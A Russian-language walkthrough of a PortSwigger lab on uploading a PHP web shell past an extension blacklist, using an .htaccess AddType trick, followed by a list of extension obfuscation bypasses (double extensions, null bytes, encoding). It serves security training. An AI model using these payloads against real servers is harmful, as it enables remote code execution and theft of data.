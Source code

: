 #### Web shell upload через обход черного списка расширений

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

Эта лабораторная содержит уязвимую функцию загрузки изображений. Определенные расширения файлов занесены в черный список, но эта защита может быть обойдена из-за фундаментального недостатка в конфигурации этого черного списка.  
  
Чтобы решить эту задачу, загрузите базовую веб-оболочку PHP, а затем используйте ее для получения содержимого файла `/home/carlos/secret`. Отправьте этот секрет с помощью кнопки, указанной в баннере лаборатории.  
  
Вы можете войти в свой собственный аккаунт, используя следующие учетные данные: `wiener:peter`

##### Решение

загружаем `exploit.php`:
```
<?php echo file_get_contents('/home/carlos/secret');
```
Т.к. на веб-сервере используется Apache в запросе меняем `filename` и `Content-Type`:
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain
```
Также необходимо заменить содержимое файла (полезную нагрузку) следующей директивой:
``` 
AddType application/x-httpd-php .l33t
```
Это сопоставляет произвольное расширение (`.l33t`) с исполняемым MIME-типом `application/x-httpd-php`. Поскольку сервер использует модуль `mod_php`, он уже знает, как с этим справиться.

Отправляем файл и убеждаемся, что он доставлен.

Далее отправляем снова исходный файл, но с изменённым расширением.
``` 
filename="exploit.l33t"
```

Наконец через поле поиска в браузере обращаемся к своему файлу:
```
.../files/avatars/exploit.l33t
```

### Обфускация расширений файлов

Даже самые исчерпывающие черные списки можно обойти с помощью классических методов обфускации. Допустим, код проверки чувствителен к регистру и не распознает, что `exploit.pHp` на самом деле является файлом `.php`. Если код, который впоследствии сопоставляет расширение файла с MIME-типом, не чувствителен к регистру, это несоответствие позволяет пронести мимо проверки вредоносные PHP-файлы, которые в итоге могут быть выполнены сервером.

Подобных результатов можно добиться и с помощью следующих приемов:
- Предоставьте несколько расширений. В зависимости от алгоритма, используемого для разбора имени файла, следующий файл может быть интерпретирован как PHP-файл или JPG-изображение: `exploit.php.jpg`
- Добавьте символы в конце строки. Некоторые компоненты удаляют или игнорируют пробелы, точки и тому подобное: `exploit.php.`
- Попробуйте использовать кодировку URL (или двойную кодировку URL) для точек, прямых и обратных косых черт. Если значение не декодируется при проверке расширения файла, но позже декодируется на стороне сервера, это также может позволить вам загружать вредоносные файлы, которые в противном случае были бы заблокированы: `exploit%2Ephp`
- Добавьте точку с запятой или символы нулевого байта, закодированные в URL, перед расширением файла. Если проверка написана на языке высокого уровня, например PHP или Java, но сервер обрабатывает файл с помощью функций более низкого уровня, например C/C++, это может привести к расхождениям в том, что будет считаться концом имени файла: `exploit.asp;.jpg` или `exploit.asp%00.jpg`
- Попробуйте использовать многобайтовые символы юникода, которые могут быть преобразованы в нулевые байты и точки после преобразования или нормализации юникода. Последовательности типа `xC0 x2E`, `xC4 xAE` или` xC0 xAE` могут быть преобразованы в `x2E`, если имя файла анализируется как строка UTF-8, но затем преобразуются в символы ASCII перед использованием в пути.